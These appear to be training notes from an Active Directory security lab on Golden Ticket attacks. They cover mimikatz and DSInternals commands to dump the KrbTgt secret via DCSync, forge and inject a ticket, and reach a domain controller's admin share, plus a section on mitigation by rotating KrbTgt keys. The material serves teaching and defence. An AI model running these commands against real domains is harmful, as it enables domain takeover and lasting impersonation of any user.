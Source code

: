 
The attackers know the secret of the KrbtTgt account 
	• Obtained with a DCSync attack 
	• Or a stolen backup 
They can craft their own tickets 
	• Impersonate any user 
	• For as long as the KrbTgt secret is valid 
	• Spoof group membership in the Privilege Attribute Certificate


#### Extract KrbTgt with DSInternals

```powershell
Get-ADReplAccount -user KrbTgt -domain contoso –server dc01
```


#### Extract KrbTgt with mimikatz

```powershell
lsadump::dcsync /domain:contoso.com /user:administrator
```


#### Forge the ticket

```powershell
kerberos::golden /domain:contoso.com /sid: /rc4: /user:administrator /id:500
```


#### On another system

```powershell
kerberos::ptt C:\ticket.kirbi
```


Golden Ticket Attack mitigation

The KrbTgt secret doesn’t change automatically ▪ It might be the same secret used for the last 10 years ▪ Assumed breach! It's possible you may have been compromised 10 years ago, but didn’t have the means to detect it ▪ Rotate the KrbTgt keys is a good idea ▪ It will help you detect Golden Tickets - if they get used with the wrong key, they will generate a specific event on the DCs ▪ Rotate the key twice ▪ As the previous key is still valid ▪ But not twice in a row as it will invalidate all issued TGT and impact users and applications ▪ Unless you are in security incident and want that ▪ Use the script New-KrbtgtKeys.ps1 to rotate the keys

Rotate KrbTgt keys

.\New-KrbtgtKeys.ps1



(ING) LAB 5 - Domination and persistence

3 Hr 7 Min Remaining

Instructions Resources Help  100%

## Exercise 4 - Perform Golden ticket attacks

Hello **Miss Red**. In this exercise you are going to mess with **Mister Blue** by crafting a TGT for the user and inject it into your own session. For this you are going to use the domain admin credentials of Katrina that you've previously stolen.

1. Log on to **[SRV01](https://labclient.labondemand.com/Instructions/6e093b8a-2f3b-4901-9748-814f5963167c?rc=10#)**. Use the following credentials:
    
    |||
    |---|---|
    |Username|`CONTOSO\katrina.mendoza.adm`|
    |Password|`NeverTrustAny1!`|
    
2. Right click on the Start menu ![2022menu.png](https://labondemand.blob.core.windows.net/content/lab127864/2022menu.png) and click on **Windows PowerShell (Admin)**.
    
3. In the **Administrator: Windows PowerShell** window run `cmd.exe` and then `title Admin console`. You should see the following: ![cmdtitle.png](https://labondemand.blob.core.windows.net/content/lab127864/cmdtitle.png)
    
4. In this renamed console, run the following `cd \Tools\mimikatz\mimikatz` (yes that's twice mimikatz, just because) and then `mimikatz.exe`.
    
5. Run the following to extract the KrbTgt secrets `lsadump::dcsync /user:krbtgt` and explorer the output.
    ![[Pasted image 20231015173257.png]]
6. Now run the following to craft your TGT for **Mister Blue** : `kerberos::golden /user:blue /domain:contoso.com /sid:S-1-5-21-1335734252-711511382-1358492552 /endin:5241600 /aes256:5d8029df60602bf0820ed46831e6ca4eb2a9767ed9fb4f35a741e1ec8bdb2605 /ptt`
    
    - **/sid** is the domain sid
    - **/endin** the the validity time for the TGT (normally it is 600 minutes)
    - **/aes256** is the AES256 hash of the KrbTgt account
    - **/ptt** is the Pass The Ticket parameter which means you will inject the crafted ticket in memory, without having to run another command

![[Pasted image 20231015173320.png]]

1. You can exit **mimikatz** by running `exit` and then run `klist`. Epxlore the output of the **klist** command.
    ![[Pasted image 20231015173338.png]]
   
    
    Let's put it to the test and access a resource.
    
8. You are still in the **Administrator: Admin console**, run the following `dir \\DC01.contoso.com\C$` and then run `klist`.
    
    You should see a new ticket for the **cifs/DC01.contoso.com**. The DC thinks this ticket has been requested by Blue, but in your case, it was requested using your crafted TGT ticket.
    
    And this will work even if blue changes his password. For as long as your TGT is valid for and as long as the KrbTgt key is still the same.
    

